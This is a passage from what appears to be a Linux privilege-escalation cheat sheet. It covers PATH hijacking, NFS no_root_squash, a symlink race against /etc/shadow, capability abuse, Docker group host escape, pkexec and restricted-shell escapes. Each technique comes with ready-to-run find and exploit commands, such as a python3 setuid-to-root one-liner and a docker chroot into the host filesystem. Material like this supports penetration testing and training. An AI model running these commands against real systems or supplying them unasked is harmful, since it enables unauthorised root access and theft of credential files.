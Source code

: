 
#### **4. Filesystem & Network-Based Vectors**
* **PATH Abuse:**
    * **Find:** `echo $PATH`. Check for writable directories listed before standard paths like `/usr/bin`.
    * **Exploit:** Create a malicious script (e.g., `/tmp/ls`) with your payload. If a root script calls `ls` without a full path, it will execute your malicious version.
* **Mounted Drives & NFS `no_root_squash`:**
    * **Find:** `cat /etc/exports | grep no_root_squash`
    * **Exploit:** As `root` on an attacker machine, mount the share, copy a compiled SUID payload to it, then execute the payload from the target machine.
* **Race Conditions & Symlink Abuse (TOCTOU):**
    * **Exploit:** Trick a privileged program into writing to or changing permissions on an arbitrary file by swapping a legitimate file with a symlink.
        ```bash
        # Terminal 1: Race to create the symlink
        while true; do ln -sf /etc/shadow /tmp/targetfile; done
        # Terminal 2: Repeatedly run the vulnerable program
        while true; do /path/to/vuln_suid_app; done
        ```

---

#### **5. Modern & Niche Vectors**
* **Capabilities:**
    * **Find:** `getcap -r / 2>/dev/null`
    * **Exploit:** If a binary has a dangerous capability like `cap_setuid+ep`, it can be abused.
        ```bash
        # If python3 has the right capability:
        /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
        ```
* **Docker Group:**
    * **Find:** `id | grep docker`
    * **Exploit:** Run a container while mounting the host's root filesystem.
        ```bash
        docker run -v /:/mnt --rm -it alpine chroot /mnt sh
        ```
* **Polkit (pkexec) Abuse:**
    * **Find:** Enumerate Polkit rules with `pkaction`. Look for actions that can be performed by your user.
    * **Exploit:** Use `pkexec` to run the allowed action with arguments that spawn a shell.
* **Escaping Restricted Shells (rbash):**
    * **Exploit:** Use programs you are allowed to run to spawn a full shell.
        ```bash
        # Use vi
        vi
        # Inside vi, type: :!/bin/sh
        # Use Python
        python -c 'import os; os.system("/bin/bash")'
        ```

---